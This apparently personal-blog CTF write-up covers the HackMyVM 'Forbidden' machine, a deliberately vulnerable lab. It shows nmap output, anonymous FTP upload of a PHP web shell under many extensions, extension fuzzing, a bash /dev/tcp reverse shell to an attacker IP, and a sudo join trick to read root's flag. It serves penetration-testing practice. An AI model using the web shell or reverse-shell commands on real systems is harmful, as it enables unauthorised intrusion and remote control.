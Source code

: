 ```yaml
---
layout: post
author: kohaku
title:  "Forbidden"
date:   2022-01-01 09:37:31 PM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Forbidden)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Wed Dec 29 15:11:02 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.162
Nmap scan report for 192.168.0.162
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Oct 09  2020 www [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.216
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 29 15:11:10 2021 -- 1 IP address (1 host up) scanned in 7.46 seconds
{% endhighlight  %}

# Port 80

On index.html we can see a message

{% highlight text  %}
SECURE WEB/FTP
Hi, Im the best admin of the world. You cannot execute .php code on this server 
so you cannot obtain a reverse shell. 
Not sure if its misconfigured another things... but the importart is that php is disabled. 
-marta
{% endhighlight  %}

This webserver has 3 file.  You can see those files connecting on FTP

- index.html
- notes.txt → A message saying about a password on a .jpg file
- robots.txt

# Port 21

Using default creds `anonymous` with a blank password

We can see the `www` directory it’s the same on webserver directory. We can try to upload some files

# Reverse shell

We can’t upload a php file, because the webserver disabled, but we can try to upload different versions of it 

First we need to create a wordlist with the extensions

{% highlight bash  %}
cat /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-extensions-lowercase.txt| grep "^.php" > extensions
{% endhighlight  %}

![Untitled](/images/forbidden/phpFiles.png)

Second we need to create a directory to storage all the files with the extensions

We need to create a directory ‘cause we’ll send all this files to FTP server

{% highlight bash  %}
mkdir files; cd files
for i in $(cat ../extensions); do touch "file$i"; done 
{% endhighlight  %}

{% highlight bash  %}
echo "<?php system(\$_GET['cmd']); ?>" > * #Send this payload to all files
{% endhighlight  %}

Connect to the FTP server and upload all the files

{% highlight bash  %}
mput *
{% endhighlight  %}

## Fuzzing

Using the wordlist created to fuzzing

{% highlight bash  %}
wfuzz -w extensions.dic -c -u "http://192.168.0.162/fileFUZZ" --hw 3

00000003:   200   0 L     0 W     0 Ch    ".php5"
{% endhighlight  %}

Use burp to make a reverse shell

{% highlight bash  %}
bash -c "bash -i >& /dev/tcp/192.168.0.216/4444 0>&1"
{% endhighlight  %}

![Untitled](/images/forbidden/reverseShell.png)

# User

On `marta’s` home directory has a hidden file, called .forbidden. We can execute this file and become `markos` user

# Root

On /var/www/html has a file called TOPSECRETIMAGE.jpg

Marta’s password is: TOPSECRETIMAGE

{% highlight bash  %}
sudo -l #Has marta

User marta may run the following commands on forbidden:
    (ALL : ALL) NOPASSWD: /usr/bin/join
{% endhighlight  %}

{% highlight bash  %}
sudo join -a 2 /dev/null /root/root.txt
{% endhighlight  %}